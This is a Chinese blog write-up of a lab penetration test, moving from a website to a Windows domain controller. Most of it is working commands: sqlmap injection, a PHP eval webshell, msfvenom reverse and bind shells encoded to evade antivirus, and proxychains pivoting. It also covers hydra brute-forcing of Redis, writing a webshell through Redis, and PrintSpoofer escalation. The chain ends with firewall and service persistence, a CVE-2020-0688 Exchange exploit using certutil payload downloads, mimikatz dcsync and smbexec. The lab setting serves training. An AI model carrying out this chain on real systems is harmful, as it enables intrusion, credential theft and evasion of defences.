




项目十一 从外网打点到内网域实战
声明：此系列文章系个人记录打靶过程的文章，靶场为暗月师傅的靶场。这是第七篇。
1.项目说明
项目十一是从外网打点到内网再到域控，是三层网络，目标是反向代理 到内网访问，通过这个 WEB 点的信息获取码，再到审计突破，再到内网。到了内网通过横向移动发现更多主机，通过信息整理得到工作组边界设备的权限， 再通过 exchange 漏洞获取核心区域访问权限，再拿下域控权限。
主要技术应用： 基础的 php 代码审计、win 系统的宝塔系统提权、cs 或者 msf 实战渗透环境（vps 一台）、shellcode 免杀过火绒、内网漫游、三层网络、redis windows 写 shell windwos 防火墙配置 （主要是会开端口和端口转发）、代理隧道应用，exchange 漏洞命令执行，打域控技巧。
声明：此系列文章系个人记录打靶过程的文章，靶场为暗月师傅的靶场。这是第一篇。
2.环境搭建
BT开启frp映射（客户端的80端口映射到外面的80端口；即类似于反向代理）
服务端配置
修改vps的host
访问域名
1 | http://www.cocat.cc |
3.外网打点
3.1SQLMAP注入得到账号密码
在登录框处尝试SQL注入
1 | admin'or 1=1# |
发现报错了
拿到代码之后就行代码审计，发现了注入点： /kss_inc/payapi_return2.php
根据提示慢慢补充整个请求
开始尝试注入，把数据包保存下来放到SQL里面跑，被检测出来是MySQL数据库
1 | sqlmap.py -r 2.txt |
查找数据库
1 | sqlmap.py -r 2.txt -dbms mysql -v 1 -p v_oid --dbs |
查询表格
1 | sqlmap.py -r 2.txt -dbms mysql -v 1 -p v_oid -D www_cocat_cc --tables |
查询kss_tb_manager表格的字段
1 | sqlmap.py -r 2.txt -dbms mysql -v 1 -p v_oid -D www_cocat_cc -T kss_tb_manager --columns |
查询username和password字段的内容
1 | sqlmap.py -r 2.txt -dbms mysql -v 1 -p v_oid -D www_cocat_cc -T kss_tb_manager -C "username,password" --dump |
1 | 8abaf0333e173522e9b55d10698d5244破解得：moon@123 |
3.2修改配置文件拿 webshell
登录成功，在系统设置的“发送邮箱”的地方注入：
1 | ');eval($_POST['cmd']);//); |
刷新之后变成了
尝试连接，连接成功
3.3提权宝塔系统
创建了一个phpinfo文件查看被禁用的函数。
禁用函数
1 | passthru,system,chroot,chgrp,chown,shell_exec,proc_open,proc_get_status,popen,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,pop epassthru,putenv,exec |

查看配置文件获取密码
宝塔的登录密码 C:/BtSoft/panel/data/default.pl jSKyFFdj
宝塔的登录端口 C:/BtSoft/panel/data/port.pl 8888
宝塔的登录网址路径 C:/BtSoft/panel/data/admin_path.pl /e1VOsmtO
C:/BtSoft/panel/data/default.db
sqlite 数据库打开即可
1 | sqlitebrowser default.db |
账号 gOXZQjWA 密码 jSKyFFdj 登录 http://localhost:8888/e1VOsmtO
扫描端口 nmap -sT -A 192.168.8.13
使用php去访问8888端口
1 |
|
3.4frp 反向代理突破登录
当前站点是反向代理出去的，所以可以考虑能不能修改配置文件。
1 | [8888] |
等待管理员重启之后就可以访问到宝塔的8888端口了
登录进入了宝塔后台，发现存在火绒，还有python的环境
4.内网渗透
4.1msf免杀马制作
生成攻击msf载荷
1 | msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.8.133 LPORT=6666 -b "\x00" -e x86/shikata_ga_nai -i 15 -f exe -o /root/moonsec/2020/project11/qq.exe |
注：-i为编码的次数
经过免杀处理之后的文件，上传到目标上，使用计划任务执行
监听：
1 | use exploit/multi/handler |
进程迁移
4.2主机信息收集
1 | run hashdump |
查看IP的信息
使用arp查看主机
1 | run arp_scanner -r 192.168.88.0/24 |

4.4跨网段扫描
添加路由
1 | run autoroute -s 192.168.88.0/24 |
开启代理
1 | background |
修改配置文件
1 | vi /etc/proxychains.conf |
代理 nmap 扫描
1 | proxychains nmap -sT -Pn 192.168.88.1-4 192.168.88.255 192.168.88.254 -p 80,89,8000,9090,1433,1521,3306,5432,445,135,443,873,5984,6379,7001,7002,9200,9300,11211,27017,27018,50000,50070,50030,21,22,23,2601,3389 |

查看信任主机
4.5hydra爆破redis
发现开启了redis端口的6379
九头蛇爆破redis获取到密码
1 | proxychains hydra -P somd5top10w.txt -o passwd.txt redis://192.168.88.4 -vV -t 10 -f |
查看80端口的服务
4.6redis服务器写webshell
在redis服务器写webshell
1 | proxychains redis-cli -h 192.168.88.4 |
尝试访问
4.7Antsword连接shell
使用中国蚁剑设置代理之后进行连接

4.8信息收集 redis 服务器信息
查看当前权限，发现权限比较低，我们可以尝试提权

4.9 PrintSpoofer 提权 server2012
上传提权工具printspoofer到目标，提权成功
4.10 下载 metasploist 正向后门收集信息
因为 reids 主机是出不了网的 所以要将后门放在宝塔上的 80 端口，同样也要过火绒。
使用msf生成一个正向连接的木马，上传至目标机器
1 | msfvenom -p windows/x64/meterpreter/bind_tcp lport=7799 -f exe >m.exe |
4.11设置 windwos 防火墙开放7799
因为有防火墙拦截，所以先添加一个7799的端口
1 | garck.exe -i -c "netsh firewall add portopening tcp 7799 msf" |
4.12 设置服务方式启动后门
注意双引号转义
1 | moonsec.exe -i -c "sc create \"server power\" binpath= \"C:\ProgramData\8899.exe"" |
在目标运行木马
1 | garck.exe -i -c "c:\gongju\m.exe" |
开启监听
1 | background |
看到了其它网段的IP：10.10.10.202
进行arp扫描这个网段，总是扫描断开，我们添加路由使用nmap去扫描
1 | run arp_scanner -r 10.10.10.0/24 |
添加路由
1 | run autoroute -s 10.10.10.0/24 |
根据80端口去探测存活的主机
1 | proxychains nmap -sT -Pn 10.10.10.0/24 -p 80 |
1 | proxychains nmap -sT -Pn 10.10.10.209 10.10.10.201 -p 53,443,80,445,135 |
发现了exchang服务
4.13. outlook 查看邮件
搜索文件pst
下载到本地
安装相关软件之后，进行查看邮件的内容
5.跨网段渗透
登录成功，查看所有的用户
复制之前生成的正向连接木马到web目录
1 | copy "C:\gongju\m.exe" "C:\inetpub\wwwroot" |
5.1CVE-2020-0688 攻击 exchange
下载后门文件到 exchange
1 | CVE-2020-0688_EXP.py -s https://10.10.10.209 -u cncat\moonsec -p QQqq5201314 -c "cmd /c certutil -urlcache -split -f http://10.10.10.202/4444.exe c:/4444.exe |
1 | CVE-2020-0688_EXP.py -s https://10.10.10.209 -u cncat\moonsec -p QQqq5201314 -c "cmd /c certutil -urlcache -split -f http://10.10.10.202/m.exe c:/m.exe" |
打开7799防火墙
1 | CVE-2020-0688_EXP.py -s https://10.10.10.209 -u cncat\moonsec -p QQqq5201314 -c "cmd /c netsh firewall add portopening tcp 7799 msf" |
执行木马程序
1 | CVE-2020-0688_EXP.py -s https://10.10.10.209 -u cncat\moonsec -p QQqq5201314 -c "cmd /c c:/m.exe" |
成功上线

1 | run enum_logged_on_users -l |
查看域控
查看域控IP
1 | ping 12server-dc.cncat.cc |
查看工作组的信息
1 | net config workstation |
收集域用户
1 | net user /domain |
查看进程，把进程迁移到域管理员用户的进程中
查看权限：getuid
1 | dir \\10.10.10.201\c$ |
5.2mimikatz读取密码
1 | load mimikatz |

1 | dcsync_ntlm administrator |
破解哈希值
1 | Hash: 42e2656ec24331269f82160ff5962387 |
5.3通过 smbexec 登录域控制器
1 | proxychains python3 smbexec.py cncat/administrator:QWEasd123@10.10.10.201 |